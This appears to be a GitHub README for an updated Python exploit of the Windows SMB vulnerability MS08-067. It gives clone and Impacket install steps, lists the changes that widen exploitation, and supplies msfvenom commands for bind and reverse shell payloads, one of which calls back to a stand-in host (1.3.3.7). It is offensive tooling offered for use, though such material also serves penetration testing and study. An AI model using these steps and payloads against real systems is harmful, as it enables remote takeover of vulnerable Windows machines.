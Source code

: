 # MS08_067 Python Exploit Script - Updated 2018

This is an updated version of the super old MS08-067 Python exploit script.  It implements some fixes to allow easy exploitation on a wider range of configurations.

Cloned and edited from this repository:
https://github.com/jivoi/pentest/

## Installation / Usage on Kali

`git clone https://github.com/andyacer/ms08_067/`

**You'll need to update Kali's Impacket version to 0_9_17** \\
Here's the steps to do that:

```
git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
cd impacket
pip install .
```

## Update Notes

- Added support for selecting a target port at the command line.  It seemed that only 445 was previously supported.
- Changed library calls to correctly establish a NetBIOS session for SMB transport
- Changed shellcode handling to allow for variable length shellcode. Just cut and paste into this source file.

## Generating Shellcode

Example msfvenom commands to generate shellcode.  Just paste these into the file which you'll edit after downloading.  'Cause you're an awesome hacker like that.

```
msfvenom -p windows/shell_bind_tcp RHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```



